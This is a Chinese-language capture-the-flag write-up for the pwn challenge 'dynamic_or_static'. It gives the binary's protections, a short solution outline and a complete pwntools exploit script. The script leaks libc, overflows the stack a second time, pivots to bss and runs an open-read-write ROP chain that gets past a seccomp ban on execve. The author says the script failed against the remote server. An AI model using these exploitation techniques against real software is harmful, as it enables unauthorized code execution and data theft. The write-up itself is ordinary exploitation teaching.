

# dynamic_or_static 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.5|

## seccomp rules



## 解题思路

简单的栈溢出，但是禁用了execve，也不允许以下字节：`[0xf0, 0xe0, 0x80, 0x50, 0xb0]`，
为了方便绕过可以先泄露libc，拿gadget，然后回到`main`函数再做一次栈溢出，通过将rop`read`到bss上
（此时就没有限制了，可以写orw的链子到bss上）然后迁移过去就可以

> 这道题的环境疑似有问题，我的脚本3.5（指2.35-0ubuntu**3.5**）能跑，
> 放到我那3.6的容器里改改也能跑（rdx的gadget变了），升级到3.7了，3.6的脚本还能跑，
> 但是远程就是打不通，比较遗憾

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './dyna'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('node5.buuoj.cn', 28461)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.5_amd64/libc.so.6')
    elf = ELF(EXE)
    gadgets = ROP(elf)
    rdi = gadgets.rdi.address
    leave = gadgets.leave.address
    main = elf.symbols['main']
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.plt['read']

    def delay():
        if lo & 2:
            pause()
        else:
            sleep(0.5)

    # leak libc and return to main
    sh.sendline(b'0'*0x38 + p64(rdi) + p64(putsGot) + p64(putsPlt) + p64(main))
    delay()

    puts = u64(sh.recvline(False) + b'\0\0')
    libcBase = puts - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))
    gadgets = ROP(libc)
    openLibc = libcBase + libc.symbols['open']
    rsi = libcBase + gadgets.rsi.address
    rdx = libcBase + gadgets.rdx.address
    flagBss = 0x404100

    # read to bss and then stack pivot to there
    sh.sendline(b'0'*0x30 + p64(flagBss) + p64(rsi) + p64(flagBss) + p64(rdx) + p64(0x100) + p64(readPlt) + p64(leave))
    delay()

    # do orw to output the flag
    sh.sendline(b'flag'.ljust(8, b'\0') + p64(rdi) + p64(flagBss) + p64(rsi) + p64(0) + p64(openLibc) +
                p64(rdi) + p64(3) + p64(rsi) + p64(flagBss + 0x100) + p64(rdx) + p64(0x100) + p64(readPlt) +
                p64(rdi) + p64(flagBss + 0x100) + p64(putsPlt) + p64(main)) # leave main at last to avoid pipe closing

    success(f'Get FLAG: {sh.recvline(False).decode()}')
    sh.close()
```
